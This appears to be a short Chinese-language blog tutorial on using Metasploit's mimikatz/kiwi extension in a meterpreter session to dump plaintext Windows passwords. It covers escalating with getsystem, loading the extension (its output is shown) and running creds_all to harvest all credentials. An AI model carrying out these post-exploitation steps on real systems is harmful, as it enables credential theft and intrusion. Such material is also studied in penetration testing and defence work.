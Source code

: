 ```yaml
---
title: 通过MSF模块mimikatz or kiwi获得密码明文
published: 2025-03-09 16:40:49
tags: [内网安全,提权思路]
category: 安全
draft: false
---
```


# 通过MSF模块mimikatz or kiwi获得密码明文

`mimikatz`模块的使用需要`Administrator`权限或者`System`权限，这就我们为什么需要`getsystem`

所以首先得进行用户提权

1. 用户提权
    
    内存迁移或在 msf 使用  getsystem 进行提权
    
2. 使用MSF里的`mimikatz`模块
    - 加载`mimikatz` 模块
        
        ```python
        meterpreter > load mimikatz
        [!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
        Loading extension kiwi...
          .#####.   mimikatz 2.2.0 20191125 (x86/windows)
         .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
         ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
         ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
         '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
          '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/
        
        [!] Loaded x86 Kiwi on an x64 architecture.
        
        Success.
        ```
        
    - 运行`creds_all` 命令，获得所有凭据